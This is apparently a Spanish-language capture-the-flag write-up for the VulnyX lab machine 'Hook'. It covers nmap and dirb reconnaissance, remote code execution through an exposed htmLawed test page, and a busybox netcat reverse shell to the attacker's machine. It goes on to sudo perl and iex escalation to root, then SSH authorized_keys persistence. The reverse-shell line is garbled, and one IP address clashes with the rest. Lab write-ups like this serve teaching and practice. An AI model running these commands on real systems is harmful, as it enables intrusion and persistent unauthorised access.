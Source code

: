 # WRITEUP - HOOK - VULNYX

![image](https://github.com/user-attachments/assets/9d529618-311b-4268-84d3-8ef762a1b5ca)

## Scanning Network

Escaneamos la red para identificar la IP del equipo a vulnerar:
```shell
 netdiscover -r 192.168.1.0/24
```
E identificamos la ip 192.168.1.56.

Realizamos un escaneo de puertos rápido y sencillo para determinar todos aquellos puertos abiertos en la máquina e identificar posibles vectores de ataque.
```shell
nmap -p- --open --min-rate 5000 -n -Pn 192.168.1.56
```
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    MAC Address: 08:00:27:1A:88:10 (Oracle VirtualBox virtual NIC)

Una vez identificados los dos puertos abiertos (ssh, http), realizamos un escaneo más exhaustivo con una lista de scripts de reconocimiento por defecto para determinar los servicios
```shell
nmap -p 22,80 -sVC 192.168.1.56
```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
    | ssh-hostkey: 
    |   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
    |_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
    80/tcp open  http    Apache httpd 2.4.59 ((Debian))
    |_http-title: Apache2 Debian Default Page: It works
    | http-robots.txt: 1 disallowed entry 
    |_/htmLawed
    |_http-server-header: Apache/2.4.59 (Debian)
    MAC Address: 08:00:27:1A:88:10 (Oracle VirtualBox virtual NIC)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Ya con el nmap, vemos que el servicio tiene una página robots.txt.

Al ser un servicio web por HTTP, podemos realizar un pequeño chequeo de diferentes directorios dentro de la página web, mientras inspeccionamos la página a mano:
```shell
dirb http://192.168.1.55
```
<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/dirb.png>

Mientras se ejecuta revisamos la página principal y vemos que es la normal de un servicio Apache. El dirbuster nos ha determinado dos directorios diferentes un robots.txt y un index.html. Dentro del robots.txt nos sugiere otro direccionamiento, por lo que accedemos a revisarlo.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/robots.txt.png>

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/htmLawed.png>

Parece la documentación de un script en php que permite procesar texto de HTML. Es una capa de seguridad que puede llegar a neutralizar vulnerabilidades de XSS (crosSite Scripting), en este caso parece deshabilitada.

Si buscamos información, encontraremos un repositorio en github con información adicional: https://github.com/kesar/HTMLawed. Dentro encontramos diferentes scripts php que nos pueden servir, en específico uno que es htmLawed_test.php. Al entrar, vemos un cuadro de texto para probar comandos en JS, y podemos procesarlo o ejecutarlo directamente sobre el navegador. Esto no nos ofrece mucho ya que no tenemos forma de ejcutar código malicioso dentro de la página.
## Exploitation
Buscamos un exploit que pueda vulnerar la máquina y nos deje ejecutar un RCE en el cuadro de texto. Buscando encontramos una PoC, en la cual al enviarle hook=exec, se puede ejecutar comandos en el recuadro de texto

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/hook_config.png>

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/hook_exploit.png>

Viendo este RCE, vamos a enviarnos una reverse shell a nuestro equipo. Probé diferentes formas y solo me funcionó la reverse shell con el uso de 'BusyBox' y netcat:
```shell
busybox	nc scs4192.168.1.103 445 -e /bin/bash
```
BusyBox es una herramienta de software que proporciona una colección de utilidades de Unix en un único ejecutable compacto, diseñado específicamente para sistemas embebidos o con recursos limitados.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/whoami.png>

## Privilege Escalation

Buscamos escalar privilegios a algún usuario del sistemas
```shell
ls -la /home
```
Vemos un directorio "noname" en el que solo los usuarios y grupos de noname pueden acceder
```shell
sudo -l
```
<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/sudo-l.png>

Podemos observar que al chequear los permisos de sudo, tenemos permisos para ejecutar perl como noname y sin contraseña. Si hacemos una búsqueda rápida, veremos que en GTFOBins, hay una entrada para perl:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/GTFObins.png>

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/GTFObins_perl.png>

```shell
sudo -u noname /usr/bin/perl -e "exec '/bin/bash'"
```
Una vez siendo noname, podemos leer la flag.

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/flag_user.png>

Una vez tenemos la flag, tenemos que escalar los privilegios a root para conseguir un acceso completo, revisando los permisos vemos que podemos ejecutar como root sin contraseña "/usr/bin/iex".

Buscando un poco de información, podemos ver que se pueden ejecutar comandos del sistema dentro de la consola con:
```shell
:os.cmd('command') (con comillas simples, dobles no funciona).
```
<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/root_iex.png>

Sabiendo esto, podemos movernos y obtener la flag de root de forma sencilla.


## BONUS
Podemos mantener una persistencia, para no tener que repetir el proceso en caso de volver a conectarse con el usuario, y sin cambiarle la contraseña ni nada, la forma es crear un par clave con ssh-keygen para así, poder conectarnos mediante la clave privada al sistema, las veces que queramos. Creamos las claves con ssh-keygen, y una vez finaliza, copiamos id_rsa (clave privada) la cual será la que usaremos para realizar las conexiones remotas. Por el otro lado, la clave pública será copiada dentro del archivo de la máquina víctima ~/.ssh/authorized_keys.
